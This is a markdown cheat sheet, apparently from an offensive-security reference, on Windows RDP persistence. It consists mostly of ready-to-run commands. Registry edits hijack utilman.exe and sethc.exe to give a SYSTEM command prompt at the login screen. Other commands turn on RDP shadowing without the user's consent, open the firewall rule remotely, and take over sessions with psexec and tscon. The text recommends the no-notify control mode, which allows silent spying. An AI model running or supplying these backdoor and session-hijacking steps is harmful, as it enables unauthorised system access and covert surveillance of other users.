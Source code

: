 # RDP - Persistence

## RDP Backdoor

An RDP backdoor is a malicious technique where an attacker replaces the legitimate binary files of utility manager (utilman.exe) or sticky keys (sethc.exe) with a command prompt (cmd.exe) executable. This allows the attacker to gain unauthorized access to the system by launching a command prompt when the ease of access or sticky keys button is pressed on the login screen, bypassing the need for authentic credentials.

### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```


## RDP Shadowing

RDP shadowing is a feature of Remote Desktop Protocol (RDP) that allows a remote user to view or control another user's active RDP session on a Windows computer. This feature is typically used for remote assistance, training, or collaboration purposes, allowing one user to observe or take control of another user's desktop, applications, and input devices as if they were physically present at the computer.


**Requirements**

* `TermService` must be running
    ```ps1
    sc.exe \\MYSERVER query TermService
    sc.exe \\MYSERVER start TermService
    ```
* `SYSTEM` privilege or the account's password


**Enable RDP Shadowing**

Shadow Remote Desktop Session can be enabled by editing the `HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services` registry key.

| Value | Name                  | Description |
| ----- | --------------------- | --- |
|   0   | Disable               | Remote control is disabled. |
|   1   | EnableInputNotify     | The user of remote control has full control of the user's session, with the user's permission. |
|   2   | EnableInputNoNotify   | The user of remote control has full control of the user's session; the user's permission is not required. |
|   3   | EnableNoInputNotify   | The user of remote control can view the session remotely, with the user's permission; the remote user cannot actively control the session. |
|   4   | EnableNoInputNoNotify | The user of remote control can view the session remotely, but not actively control the session; the user's permission is not required. |

Usually you want to be able to see and interact with the Remote Desktop: option 2 `EnableInputNoNotify`.

```ps1
reg.exe query "\\MYSERVER\HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services" /V Shadow
reg.exe add "\\MYSERVER\HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services" /V Shadow /T REG_DWORD /D 2 /F
```

If you encounter any trouble with the network, enable the `Remote Desktop - Shadow (TCP-In)` firewall rule.

```ps1
$so = New-CimSessionOption -Protocol Dcom
$s = New-CimSession -ComputerName MYSERVER -SessionOption $so
$fwrule = Get-CimInstance -Namespace ROOT\StandardCimv2 -ClassName MSFT_NetFirewallRule -Filter 'DisplayName="Remote Desktop - Shadow (TCP-In)"' -CimSession $s
$fwrule | Invoke-CimMethod -MethodName Enable
```


**Enumerate active users**

Query to enumerate active users on the machine.

```ps1
quser.exe /SERVER:MYSERVER
query.exe user /server:MYSERVER
qwinsta.exe /server:MYSERVER
```


**Use the shadow mode**

Use the `noConsentPrompt` parameter and specify the session ID obtained from the previous command.

```ps1
MSTSC [/v:<server[:port]>] /shadow:<sessionID> [/control] [/noConsentPrompt]
mstsc /v:SRV2016 /shadow:1 /noConsentPrompt
mstsc /v:SRV2016 /shadow:1 /noConsentPrompt /control
```

On older version you have to use  `tscon.exe` instead.

```ps1
psexec -s cmd
cmd /k tscon 2 /dest:console
```


## References

* [Spying on users using Remote Desktop Shadowing - Living off the Land - Mar 26, 2021 - @bitsadmin](https://blog.bitsadmin.com/spying-on-users-using-rdp-shadowing)
* [RDP Hijacking for Lateral Movement with tscon - ired.team - 2019](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)